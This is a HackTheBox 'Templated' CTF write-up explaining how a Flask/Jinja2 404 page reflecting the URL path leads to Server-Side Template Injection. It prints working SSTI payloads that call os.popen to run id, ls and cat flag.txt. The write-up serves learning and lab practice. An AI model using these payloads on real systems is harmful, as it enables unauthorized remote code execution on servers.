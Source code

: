 ```yaml
---
title: HackTheBox | Templated
description: Writeup of a easy-rated Web Exploitation Challenge from HackTheBox
date: 2023-06-27 12:00:00 -500
categories: [HackTheBox, Challenge]
tags: [Web Exploitation, SSTI, RCE, Werkzeug, Flask, Jinja2]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/htb-templated/HTB.jpg
---
```


***

<center><strong><font color="DarkGray"><a href="https://app.hackthebox.com/challenges/templated" target="_blank"><er>Templated</er></a> is a Web Exploitation challenge from HackTheBox that revolves around exploiting a Server-Side Template Injection vulnerability in order to achieve remote code execution on the server and eventually get the flag</font></strong></center>

***

## **<strong><font color="Brown">Challenge Name</font></strong>**
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 01_12_53-Hack The Box __ Hack The Box — Mozilla Firefox.png" alt="">
<center><i>Templated Challenge</i></center>
<br/>

## **<strong><font color="Brown">Challenge Description</font></strong>**
***
* Can you exploit this simple mistake?

## **<strong><font color="Brown">Write-Up</font></strong>**
***
### **<strong><font color="DarkCyan">Enumeration:</font></strong>** 
#### **<strong><font color="MediumPurple">Front page:</font></strong>**
Navigating to the provided docker instance (``144.126.206.23:32088``), you will be presented with the following web page:
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 22_28_04-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Front page</i></center>

* The website's front page is pretty empty as it primarily consists of text without any interactive elements such as buttons, logos, or clickable features.
* However, the front page reveals the framework and templating engine being used in the backend of this application, which is `Flask/Jinja2`

#### **<strong><font color="MediumPurple">Source code:</font></strong>**
The source code of the page doesn't contain any hidden secrets, such as developer's comments or hidden directories.
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 22_32_43-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Source code</i></center>

#### **<strong><font color="MediumPurple">Server's response:</font></strong>**
Taking a look at the server's response, the `Server` HTTP header discloses the use of `Werkzeug/1.0.1` and  `Python/3.9.0` is used in conjunction with `Flask` as the backend infrastructure.
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 22_50_04-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Server Header</i></center>

#### **<strong><font color="MediumPurple">Werkzeug's console:</font></strong>**
``Werkzeug`` is a comprehensive WSGI (``Web Server Gateway Interface``) utility library for Python. It serves as a foundation for developing web applications, and is often used in conjunction with the web frameworks like `Flask` to handle the level-level aspects of web development. <br/>
``Werkzeug`` provides a development server called `Werkzeug's Debugger` that includes an interactive console known as the `interactive debugger console`. This console allows developers to execute Python code and inspect variables during the debugging process. <br/>
Long story short, if debug mode is enabled, we can access the `/console` endpoint and easily gain `RCE - Remote Code Execution` on the server running the vulnerable web application.

#### **<strong><font color="MediumPurple">Detecting the vulnerability:</font></strong>**
Unfortunately, the debug mode is disabled on the server. However, navigating to `/console` does not return a `404 - NOT FOUND` status-code, rather it returns a `200 FOUND`, which means `404` pages are probably being templated.
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 23_12_10-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Templated 404 pages</i></center>

* As you can see, the web application is reflecting the name of the directory or file we want to access, such as in this example `console`.
* This might lead to an `SSTI - Server-Side Template Injection` vulnerabilities, if user input passed via the `URL` is not properly sanitized.

### **<strong><font color="DarkCyan">Exploitation:</font></strong>** 
#### **<strong><font color="MediumPurple">Remote Code Execution:</font></strong>**
Since we know that the server is using Flask, which is a Python library, and we can leverage the `MRO - Method Resolution Order` to traverse upwards in the `request` library within **Flask**. This allows us to import the `os` library. <br/>
Once we have access to the `os` library, we can execute OS commands on the server hosting the web application.<br/>

```python
{% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}{% endraw %}
```

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-27 23_31_12-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>id command</i></center>
<br/>
Since we already know the templating engine in use, which is `Jinja2`, we can leverage Jinja2-specific expressions like the following:

```python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}{% endraw %}
```
<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 00_31_10-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>id command</i></center>

* As you can see, this jinja2-specific expression uses the `os` module to execute the `id` command.

#### **<strong><font color="MediumPurple">Flag:</font></strong>**
Now that we have remote code execution on the server, we can execute the `ls` command to list the files and directories located in the current directory:

```python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}{% endraw %}
```

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 00_38_39-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>ls command</i></center>

* As you can see, there is text file named `flag.txt`

Let's read the content of `flag.txt` file, by injecting the following payload:

```python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}{% endraw %}
```

<br/>
<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-templated/2023-06-28 00_40_33-HACKING_MACHINE - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Flag</i></center>

